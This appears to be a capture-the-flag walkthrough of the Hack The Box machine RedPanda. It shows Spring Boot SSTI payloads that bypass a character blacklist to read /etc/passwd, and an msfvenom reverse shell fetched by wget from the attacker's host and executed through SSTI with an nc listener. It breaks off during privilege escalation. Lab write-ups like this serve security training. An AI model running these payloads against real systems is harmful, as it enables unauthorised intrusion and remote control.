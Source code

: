 # redpanda-htb-walkthrough
<h3> About the Lab:</h3>
This is a Linux machine that requires exploiting SSTI in a Java SpringFramework application via a search bar on the webpage for RCE and then initial access. For privilege escalation, we will need to emulate what group the user is in, discover a log file he/she has access to, use pspy to discover a JAR file root periodically run, study that JAR file to discover conditions required to pass, exploiting directory traversal, and generate an XXE XML file to leak root’s SSH private key. The privilege escalation for this machine is HARD and shouldn’t be an easy category machine. But let’s get started!

## User Own:
Connect VPN first: `sudo openvpn [your.ovpn file]`<br>
First thing first, run nmap scan on the RedPanda server: `nmap -sS -A -p- -T4 [machine-ip]`<br>
**From nmap Enumeration:**<br>
**port 22**: SSH service<br>
**port 8080**: Red Panda Search (powered by Spring Boot)

We run some other tools as well to gather as much information possible to find out existing vulnerability in the system:<br>
`dirb [url] [wordlist]`<br>
`curl -v [url]`

![image](https://user-images.githubusercontent.com/31168741/203845250-2f90a1ca-396f-4546-865d-623841800910.png)
![image](https://user-images.githubusercontent.com/31168741/203845289-5f991ccb-a71c-4c2f-bcca-2ee00a747d45.png)

From above, we find out it is built in Spring framework Java. We found 3 accessible directories as well. Browse the website manually and inspect each endpoint with Burp Suite. If no input is provided, the search endpoint returns:

![empty_input](https://user-images.githubusercontent.com/31168741/203846234-ac32fa99-1973-4490-bb19-b6b760866f3b.png)

The stats provides some statistics for 2 different authors:<br>
**woodenk**<br>
**damian**<br>
and an export function, which generates a report for each specific user.

![stats_author_woodenk](https://user-images.githubusercontent.com/31168741/203846805-89cb2072-f645-401e-a253-dcbcac02bbfd.png)

Other than that, we've tested for various injections (SQL Injection, XXE Injection) etc. and turns out there is an SSTI injection within the search function, but some characters are blacklisted.<br>

<h3>So what is an SSTI Injection?</h3>
A server-side template injection occurs when an attacker is able to use native template syntax to inject a malicious payload into a template, which is then executed server-side. For further information: https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection<br>

A list of payloads that can be used for checking if the site is vulnerable to SSTI:

![Capture](https://user-images.githubusercontent.com/31168741/203847710-53ca4cb6-033e-440b-a85a-a952488b2f34.PNG)

4 of the payloads didn't work since some of the symbols are blacklisted by the server.

>**Error occured: banned characters**<br>

Oddly enough, the # (pound) symbol and * (star) have done the work and we can confirm the SSTI.

![ssti_confirmed](https://user-images.githubusercontent.com/31168741/203847928-026c15c3-ab62-415e-a887-7bc63588aabf.png)
![image](https://user-images.githubusercontent.com/31168741/203847951-a3bd0348-beee-42fe-98e0-7061a58dc19d.png)

Both mathematical operations 1+3+3+7 and 7+7 equals 14 we can tell that the payload got executed by the server, since we see the expected output.

<h3>SSTI into RCE:</h3>
The nmap scan reveals that the web application is powered by Spring Boot – so is it a Java application. Let's verify our payload by reading /etc/passwd. Use [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection)'s Template Injection cheat sheet and find a suitable payload that bypasses the blacklist filter.<br>
Hint: The payload won't work, unless we change the $ (dollar sign) to an * (asterisk).<br>

`${T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(119)).concat(T(java.lang.Character).toString(100))).getInputStream())}`

![image-1](https://user-images.githubusercontent.com/31168741/204106233-2b022041-c1d7-4155-86ab-91b8e5f3eacc.png)

<h3>Reverse Shell</h3>
Note: pentest.ws (Helps to create a reverse shell)
The shell:<br>
msfvenom -p linux/x64/shell_reverse_tcp LHOST=[your-machine-ip] LPORT=1234 -f elf > rs.elf<br>
Start your HTTP server in the same location as r.elf the reverse shell to the target machine: python3 -m http.server 80. Now the payload we'll use here is: *{"".getClass().forName("java.lang.Runtime").getRuntime().exec("")}; as it is java based (collected from github). Now intercept the get request from searchbar and put the payload in the value section accordingly:<br>
To transfer the payload to the target machine:<br>
*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("wget [your-machine-ip]/rs.elf")}<br>
To change the permission:<br>
*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("chmod 777 ./rs.elf")}<br>
Now we execute but before that, do not forget to generate a listener:<br>
nc -lvnp 1234<br>
Execute: *{"".getClass().forName("java.lang.Runtime").getRuntime().exec("./rs.elf")}<br>
Upgrading to the tty shell so that we can get a better view to follow: python3 -c 'import pty; pty.spawn("/bin/bash")'

![image](https://user-images.githubusercontent.com/31168741/204106736-02c77520-4e37-43a1-89ce-8383d18f52fc.png)

In the server yay! Pass for user Woodenk is found under the directory:<br>
>/home/woodenk<br>
>user.txt

## System Own:
<h3>Privilege Escalation</h3>
We run pspy64(snoop unpriviledged Linux processes) to observe. We notice a JAR file is being executed by root within a time interval.<br>
woodenk@redpanda:/home/woodenk$ cd /tmp<br>
woodenk@redpanda:/tmp$ wget 10.10.16.9/pspy64 (Chnage the ip with your localhost)<br>
woodenk@redpanda:/tmp$ chmod +x ./pspy64<br>
woodenk@redpanda:/tmp$ ./pspy64<br>

![image-25](https://user-images.githubusercontent.com/31168741/204232264-1a76f509-48c9-4f65-bdb2-23c479653fcd.png)

We host an HTTP server at port 8000 in /opt/credit-score/LogParser/final/target/ and download the file. Opening the JAR file using jd-gui, it appears that /opt/panda_search/redpanda.log is being read in main().

![image-26](https://user-images.githubusercontent.com/31168741/204232850-b2bd1377-acd0-4ff0-881f-7aa4fbcac886.png)

According to the code, there are a few conditions to pass:<br>
•	The line must contain “.jpg” in the string<br>
•	split() will be done to the string where “||” is the delimiter.<br>
•	The string must be split into 4 strings:<br>
•	The first string must be a number.<br>
•	4th string must be pointing to an existing .jpg file.<br>
•	The .jpg file’s metadata tag “Artist” must have a value that matches to /credits/<author_name>_creds.xml.






